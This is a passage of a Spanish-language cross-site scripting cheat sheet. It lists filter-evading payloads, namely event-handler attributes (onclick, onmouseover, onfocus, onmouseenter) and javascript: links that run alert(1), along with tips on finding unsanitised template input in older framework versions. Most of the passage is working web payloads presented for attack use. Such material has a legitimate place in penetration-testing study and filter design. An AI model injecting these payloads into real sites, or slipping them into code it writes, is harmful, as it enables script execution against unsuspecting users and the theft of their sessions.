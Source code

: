 **Tips:**

- Busca puntos donde aparezca `{{ tu_input }}` directamente.
    
- Versión 1.x es especialmente vulnerable si no hay sanitización.
    

---

**XSS en eventos HTML comunes**  
Puedes usar eventos menos filtrados que `onerror`, como:

```html
onmouseover=alert(1)
onclick=alert(1)
onfocus=alert(1)
onmouseenter=alert(1)
```

**Ejemplo:**

```html
<a href="#" onclick=alert(1)>Haz clic</a>
```

---

**XSS a través de enlaces (`href="javascript:"`)**  
Algunos sitios permiten inyectar `javascript:` en `href`.

```html
<a href="javascript:alert(1)">Haz clic aquí</a>
```

**Tips:**

- Algunos navegadores modernos bloquean `javascript:` por seguridad, pero sigue siendo útil en navegadores antiguos o filtros débiles.

---
